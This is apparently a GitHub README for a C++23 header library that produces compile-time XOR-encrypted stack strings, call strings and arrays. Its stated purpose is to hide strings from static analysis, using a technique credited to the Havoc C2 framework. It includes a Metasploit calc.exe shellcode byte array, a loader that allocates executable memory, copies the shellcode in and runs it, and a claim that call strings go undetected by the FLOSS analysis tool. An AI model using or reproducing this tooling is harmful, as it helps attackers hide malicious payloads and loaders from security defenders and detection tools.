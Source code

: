 # malstring
Using c++23 compile-time magic to produce obfuscated PIC strings and arrays.

## Stack strings
Probably you already know the following code will force runtime construction of string "Stack string" on the stack.
```c++
#include <cstdio>

int main() {
    char stack_string[] = {'S', 't', 'a', 'c', 'k', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0'};

    printf(stack_string);
}
```

[https://godbolt.org/z/hPYEnjn3s](https://godbolt.org/z/hPYEnjn3s)

This method is useful if you want to generate PIC code without using an .rdata section to store strings, or simply hide strings from static string search tools.

The only problem with this. Writing each string this way is extremely inconvenient. Also it's less readable.
This problem is especially evident when you want to encrypt stack string in compile time.

My library, using various metaprogramming tricks, produces compile-time XOR-encrypted stack strings without losing readability and convenience.
For each string it is possible to use its own XOR key.

```c++
	StackString<"Null-terminated Stack String", RAND()> ss;
	pm.EncryptDecrypt(); // don't forget to decrypt the string before using it
	std::cout << ss.Buf << '\n';
	pm.EncryptDecrypt(); // encrypt again after use

	StackString<"Stack String without null terminator", RAND(), false> ss2;
	pm2.EncryptDecrypt();
	std::cout << ss2.Buf << '\n';
	pm2.EncryptDecrypt();
```

[https://godbolt.org/z/dGePWeoaa](https://godbolt.org/z/dGePWeoaa)


## Call Strings

I found this technique in [HAVOC](https://github.com/HavocFramework/Havoc) C2 framework.

```c++
#include <cstdio>

#if (defined(_MSC_VER))
#define NOINLINE __declspec(noinline)
#else
#define NOINLINE __attribute__((noinline))
#endif


NOINLINE char SymH() {
	return 'H';
}
NOINLINE char SymE() {
	return 'E';
}
NOINLINE char SymL() {
	return 'L';
}
NOINLINE char SymO() {
	return 'O';
}
NOINLINE char SymNULL() {
	return '\0';
}


int main() {
    char Hello[6];
    Hello[0] = SymH();
	Hello[1] = SymE();
	Hello[2] = SymL();
	Hello[3] = SymL();
	Hello[4] = SymO();
	Hello[5] = SymNULL();
    
    printf("%s\n", Hello);
}
```
gcc optimizes all calls, so optimization must be disabled. Msvc works well even with optimization enabled.
[https://godbolt.org/z/4TGso8heb](https://godbolt.org/z/4TGso8heb)


My library also provides the ability to create XOR-encrypted call strings in a much more convenient way.

```c++
    CallString<"Null-terminated Call String", RAND()> cs;
	cs.EncryptDecrypt(); // don't forget to decrypt the string before using it
	printf(cs.Buf);
	cs.EncryptDecrypt(); // encrypt again after use

    CallString<"Call String without null terminator", RAND()> cs2;
	cs2.EncryptDecrypt();
	printf(cs2.Buf);
	cs2.EncryptDecrypt();

```
[https://godbolt.org/z/8n49Knov3](https://godbolt.org/z/8n49Knov3)

## Call Array

You can store more than just strings. This library also provides a way to store arrays.
This code demonstrates how to call the Metasploit shellcode, which launches Calc.exe

```c++
int main()
{
	constexpr std::array<std::uint8_t, 108> shellcode {
		0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C,
		0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
		0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74,
		0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
		0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE,
		0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0x0C, 0xCC, 0xCC,
	};
	
	CallArray<shellcode.size(), shellcode, RAND()> calc;
	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```

You can even pass hex string instead of constexpr array.

``` c++
int main()
{


	CallArrayFromHex<"53 56 57 55 54 58 66 83 E4 F0 50 6A 60 5A 68 63 61 6C "
	                 "63 54 59 48 29 D4 65 48 8B 32 48 8B 76 18 48 8B 76 10 48 AD "
	                 "48 8B 30 48 8B 7E 30 03 57 3C 8B 5C 17 28 8B 74 1F 20 48 01 FE 8B 54 "
	                 "1F 24 0F B7 2C 17 8D 52 02 AD 81 3C 07 57 69 6E 45 75 EF 8B 74 1F 1C "
	                 "48 01 FE 8B 34 AE 48 01 F7 99 FF D7 48 83 C4 68 5C 5D 5F 5E 5B 0C "
	                 "CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC", RAND()> calc;

	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```
The only limitation of this method is EXTREMELY long compilation time for large arrays. A 1kb shellcode takes about 30 minutes compilation time.

## Detection
I tested StackString and CallString with [FLOSS](https://github.com/mandiant/flare-floss)
The StackString is sometimes detectable as "Tight string" (runtime decrypted stack string)
CallString is undetectable.

## Usage
Just copy header into your project. set c++ standard to c++23 or latest.
CRT isn't required.
